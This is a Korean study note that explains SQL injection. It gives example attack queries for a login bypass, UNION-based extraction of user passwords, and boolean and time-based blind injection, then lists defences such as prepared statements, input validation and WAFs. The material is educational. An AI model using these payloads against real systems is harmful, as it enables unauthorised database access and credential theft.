

### [SQL 인젝션(SQL Injection)]

- 보안상의 취약점을 이용하여 임의의 SQL문을 통해 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위

​

#### 공격 종류 및 방법

1. 논리적 에러를 이용한 SQL Injection
   - 대중적인 공격 기법

[일반문]
SELECT user FROM user_table WHERE id='입력한 아이디' AND password='입력한 비밀번호';
 

[공격문]
SELECT user FROM user_table WHERE id='admin' AND password=' ' OR '1' = '1';

-> 논리연산에 따라 password 가 TRUE가 되어 로그인 됨

​ 2. Union based Injection - 유니온 문을 통한 공격

**[조건]**

1. Union하는 두 테이블의 컬럼수가 같을 것
2. Union하는 두 테이블의 데이터 형이 같을 것

[일반문]
SELECT \* FROM Board WHERE title LIKE '%INPUT%' OR contents '%INPUT%'
 

[공격문]
SELECT \* FROM Board WHERE title LIKE '% ' UNION SELECT null,id,passwd FROM Users -- INPUT%' OR contents '%INPUT%'
​

3. Blind SQL Injection 1
   - 에러문이 없는 경우 사용
   - Boolean Base SQL

목적 : DB의 테이블 정보 파악

일반 문
SELECT _ FROM Users WHERE id = 'INPUT1' AND password = 'INPUT2'
공격 문
SELECT _ FROM Users WHERE id = 'abc123' and ASCII(SUBSTR((SELECT name FROM information_schema.tables WHERE table_type='base table' limit 0,1),1,1)) > 100 (로그인이 될 때까지 시도) -- INPUT1' AND password = 'INPUT2'
-> 뒤의 100이라는 숫자를 조정하여 테이블명을 추출

-> 로그인이 되면 추출성공, 실패하면 참이 될 때 까지 반복

​

4.  Blind SQL Injection 2

- 에러문이 없는 경우 사용

- Time base SQL

목적 : DB의 테이블 정보 파악

일반 문
SELECT _ FROM Users WHERE id = 'INPUT1' AND password = 'INPUT2'
공격 문
SELECT _ FROM Users WHERE id = 'abc123' OR (LENGTH(DATABASE())=1 (SLEEP 할 때까지 시도) AND SLEEP(2)) -- INPUT1' AND password = 'INPUT2'
-> LENGTH의 길이를 통해 DB의 길이를 알아낼 수 있다.

-> 참이 아니면 SLEEP 함수가 작동하지 않음

​

#### 대응방안

- 웹 방화벽 (WAF) 이용
  - 관리자가 설정한 규칙에 따라 의심스러운 웹 트래픽 등을 감지
- 입력 값에 대한 검증
- Prepared Statement 구문 사용
  - 사용자의 입력 값을 바로 처리하지 않고 대기
- Error Message 노출 금지
  - 에러 메시지를 통해 DB의 정보가 노출되는 것을 방지
